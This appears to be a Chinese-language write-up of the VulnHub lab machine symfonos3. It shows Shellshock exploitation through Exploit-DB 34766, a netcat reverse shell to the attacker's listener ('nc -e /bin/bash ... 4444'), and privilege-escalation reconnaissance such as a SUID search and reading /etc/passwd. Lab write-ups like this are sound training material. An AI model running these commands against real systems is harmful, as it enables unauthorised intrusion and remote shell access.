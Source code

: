 
# 中期-漏洞利用

看上去就像 `uptime` 的输出,查了下,应该是 shellshock 漏洞
```bash
searchsploit -w shellshock
```

找个 https://www.exploit-db.com/exploits/34766 测试下

kali 监听
```bash
nc -lvp 4444
```

执行命令,回弹 shell
```bash
wget https://www.exploit-db.com/download/34766
mv 34766 34766.php
php 34766.php -u http://192.168.141.150/cgi-bin/underworld -c "nc -e /bin/bash 192.168.141.134 4444"
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/20.png)

下面尝试提权

---

# 后期-水平提权

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
uname -a
sudo -l
find / -perm -u=s 2>/dev/null
cat /etc/passwd
```
